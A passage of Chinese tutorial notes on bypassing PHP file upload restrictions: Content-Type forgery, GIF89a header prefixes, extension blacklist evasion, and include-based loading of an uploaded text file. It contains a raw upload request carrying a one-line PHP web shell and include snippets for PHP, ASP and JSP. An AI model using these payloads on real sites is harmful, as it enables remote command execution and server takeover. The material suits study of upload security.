 或者是浏览器嗅探有可能决定content-type。（存疑还需要查资料）

注：文件被上传后，默认地会被储存到服务端的默认临时目录中，除非
php.ini 中的 [upload_tmp_dir](http://php.net/manual/zh/ini.core.php#ini.upload-tmp-dir)
设置为其它的路径。服务端的默认临时目录可以通过更改 PHP
运行环境的环境变量 TMPDIR 来重新设置

我们可以通过抓包，将content-type字段改为image/gif

```http
POST /upload.php HTTP/1.1
TE: deflate,gzip;q=0.3
Connection: TE, close
Host: localhost
User-Agent: libwww-perl/5.803
Content-Type: multipart/form-data; boundary=xYzZY//image/gif
Content-Length: 155
--xYzZY
Content-Disposition: form-data; name="userfile"; filename="shell.php"
Content-Type: image/gif (原为 Content-Type: text/plain)
<?php system($_GET['command']);?>
--xYzZY-
```

还有一种程序员通过getnamesize()获取图片宽、高信息不是图片的话获取不到。

可以将文件合并上传为php文件也可以解析

反正就是灵活运用通过判断网站cms查看源码来决定使用哪种方法。

- ##### 文件头绕过

在木马内容基础上再加了一些文件信息，有点像下面的结构
GIF89a<?php phpinfo(); ?>

- ##### 文件后缀名绕过

前提：黑名单校验
黑名单检测：一般有个专门的 blacklist 文件，里面会包含常见的危险脚本文件。
绕过方法：
（1）找黑名单扩展名的漏网之鱼 - 比如 asa 和 cer 之类
（2）可能存在大小写绕过漏洞 - 比如 aSp 和 pHp 之类

白名单麻烦些只能通过文件解析漏洞（我知道的）来绕过，例如截断之类的

[文件解析]([http://thief.one/2016/09/21/服务器解析漏洞](http://thief.one/2016/09/21/服务器解析漏洞/))

- ##### 文件包含

特殊的文件包含（允许上传php等但是会检测其是否为木马）

前提：校验规则只校验当文件后缀名为asp/php/jsp的文件内容是否为木马。
绕过方式：（这里拿php为例，此漏洞主要存在于PHP中）
（1）先上传一个内容为木马的txt后缀文件，因为后缀名的关系没有检验内容；
（2）然后再上传一个.php的文件，内容为<?php Include(“上传的txt文件路径”);?>
此时，这个php文件就会去引用txt文件的内容，从而绕过校验，下面列举包含的语法：

```php
#PHP    
<?php Include("上传的txt文件路径");?> 
#ASP    
<!--#include file="上传的txt文件路径" -->
#JSP    
<jsp:inclde page="上传的txt文件路径"/>
or  
<%@include file="上传的txt文件路径"%>
```
